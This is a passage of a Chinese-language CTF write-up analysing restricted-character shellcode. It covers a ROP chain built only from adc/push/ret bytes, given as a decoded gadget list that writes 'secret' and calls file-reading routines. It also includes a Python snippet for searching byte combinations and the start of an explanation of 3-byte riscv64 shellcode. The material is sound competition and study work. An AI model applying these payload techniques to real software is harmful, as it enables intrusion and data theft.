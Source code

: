 反汇编后就好理解了，不得不说这个思路非常牛逼。利用`adc/push/ret`三个指令进行ROP调用。再进行一下解码操作，可以发现，实际上的`shellcode`如下所示：

```
0x490972; mov rsi, [rbx]; call    rax
0x4c2806
0x446f3a; pop rbx; ret
0x47a850; _dl_dprintf
0x47e50a; pop eax; ret
0x1
0x413aeb; pop edi; ret
0x4191c8; mov [rdx], rax; ret
0x4c2806
0x40171f; pop rdx; ret
0x47a650; dl_sysdep_read_whole_file
0x433ae4; mov [rdi], rdx; ret
0x4c2806;
0x40ffb0; pop edi; ret
0x72636573; secr
0x40171F; pop rdx; ret
0x436613; mov [rdi], rdx; ret
0x4c280a
0x415f56; pop edi; ret
0x7465  ; et\x00
0x40171F; pop rdx; ret
ret
```

`ret`指令必须要有一个字符`c20000`，因为shellcode的内存区域默认值就是`00`，所以可以省略`00`字符，`adc eax`占一个字符`15`，`push eax`占一个字符`50`，所以这是这种套路必须要用的三种字符。这三种字符可以组成81种数字：

```
val = ["15", "50", "c2"]
oi = itertools.product(val, repeat=4)
```

然后根据ROP的值，使用这81个数字匹配出某种组合，该shellcode的难点就在这了，如何计算这种组合。我目前的思路就是随机出几种组合，使用z3进行计算，如果在一定时间内没计算出，则终止，换一套组合进行计算。

三种字符的shellcode当然不止这一种，如果只有这一种，那么当下回合这三种字符随意一种字符被加入黑名单时，该shellcode讲无用武之地。我们应该理解其原理，活学活用。

比如`ret`原本是`c3`，所以可以把`c2`替换成`c3`，还有`cb(retf)`，`ca0000(retf 0x0)`等等。

`adc`可以换成`add`或者其他，`eax`可以换成`ebx`或者其他，比如：

[![](https://p5.ssl.qhimg.com/t01a4f8a5b26828e340.jpg)](https://p5.ssl.qhimg.com/t01a4f8a5b26828e340.jpg)

### <a class="reference-link" name="%E9%95%BF%E5%BA%A6%E4%B8%BA3%E5%AD%97%E8%8A%82%E7%9A%84shellcode"></a>长度为3字节的shellcode

从上面图中可以发现TD战队和Katzebin战队就已经在比拼算法的优化能力了，除此之外，前三名的shellcode，不说其字符种类，其长度就只有3字节。3字节的shellcode就能读文件？比赛的时候第一次看到这三字节的shellcode时，我整个人都惊呆了?，甚至怀疑这些队伍是不是使用了什么0day修改了history文件，把自己的shellcode随意改了几个字节。

赛后复盘的时候才得知，这是`riscv64`的shellcode，作用是执行`read(2, buf, length)`系统调用，从标准错误中读取数据。

为什么能从错误输出中读取数据呢？首先来看看执行该代码的指令：
